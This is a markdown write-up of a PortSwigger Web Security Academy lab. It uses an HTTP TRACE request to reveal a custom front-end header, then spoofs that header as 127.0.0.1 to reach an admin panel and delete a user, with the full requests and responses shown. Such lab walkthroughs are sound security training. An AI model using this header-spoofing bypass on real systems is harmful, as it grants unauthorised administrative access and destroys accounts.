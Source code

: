 # [Lab 4: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

---

## Description

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

The description indicates that the front-end adds on a custom HTTP header to authenticate the user. How can this custom HTTP header be viewed?

The HTTP `TRACE` method is used in development to have the server return the exact request that it received. If the front end is adding on a custom HTTP header before sending it on to the back end server, it could be possible to view this HTTP header if the HTTP `TRACE` method is allowed.

Submit an HTTP `TRACE` request.

```http
TRACE / HTTP/1.1
Host: ac5a1ff31f66a96b80160b4500ae0045.web-security-academy.net
Cookie: session=0hyjoO1EY3iRYjEKxMlNU08rXchHrYNs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

The response:

```http
HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 613

TRACE / HTTP/1.1
Host: ac5a1ff31f66a96b80160b4500ae0045.web-security-academy.net
Cookie: session=0hyjoO1EY3iRYjEKxMlNU08rXchHrYNs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
X-Custom-IP-Authorization: 3.130.153.100
```

Note the custom HTTP header: `X-Custom-IP-Authorization: 3.130.153.100`. `3.130.153.100` is the public IP address of the attacking machine.3.130.153.177

Attempt to access the admin panel at `/admin`.

![](images/Pasted%20image%2020210907163243.png)

It states that it is only available to local users. Attempt to access the admin panel again at `/admin` with the `X-Custom-IP-Authorization` header set to `127.0.0.1`.

```http
GET /admin HTTP/1.1
Host: ac5a1ff31f66a96b80160b4500ae0045.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close
X-Custom-IP-Authorization: 127.0.0.1
```

This grants access to the admin panel. Delete `carlos`'s account to complete the challenge.

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: ac5a1ff31f66a96b80160b4500ae0045.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac5a1ff31f66a96b80160b4500ae0045.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close
X-Custom-IP-Authorization: 127.0.0.1
```
